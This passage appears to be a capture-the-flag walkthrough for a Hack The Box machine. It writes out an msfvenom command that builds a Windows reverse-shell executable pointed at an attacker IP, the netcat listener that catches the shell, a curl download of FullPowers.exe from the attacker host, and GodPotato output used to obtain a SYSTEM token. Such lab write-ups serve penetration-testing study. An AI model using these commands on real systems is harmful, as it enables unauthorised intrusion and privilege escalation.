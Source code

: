 get another shell
`┌──(root㉿1337)-[/home/…/HacktheBox/Season/vs-rce/rce]
└─# msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.109 LPORT=1338 -f exe > hack.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes`

Now used revshells ivan shells to get local privilge using nc 
```
└─# nc -lvnp 1338
listening on [any] 1338 ...
connect to [10.10.14.109] from (UNKNOWN) [10.10.11.234] 49679
SOCKET: Shell has connected! PID: 1804
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
nt authority\local service

C:\xampp\htdocs>
```
Now i will execute fullpowers
```
C:\xampp\htdocs>curl -o FullPowers.exe http://10.10.14.109:2222/FullPowers.exe
C:\xampp\htdocs>fullpowers
[+] Started dummy thread with id 3732
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```
Wow now i am on system32
Now i will execute the GodPotato.exe
and run this 
```
C:\xampp\htdocs>God.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140730318651392
[*] DispatchTable: 0x140730320957552
[*] UseProtseqFunction: 0x140730320333728
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\64df23d3-f883-443c-bb55-1cda6ae5c72e\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005402-0458-ffff-2979-9a6d5c4ba030
[*] DCOM obj OXID: 0x8fce7fdb7b411738
[*] DCOM obj OID: 0x82e5f55f26ef58d9
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 872 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
```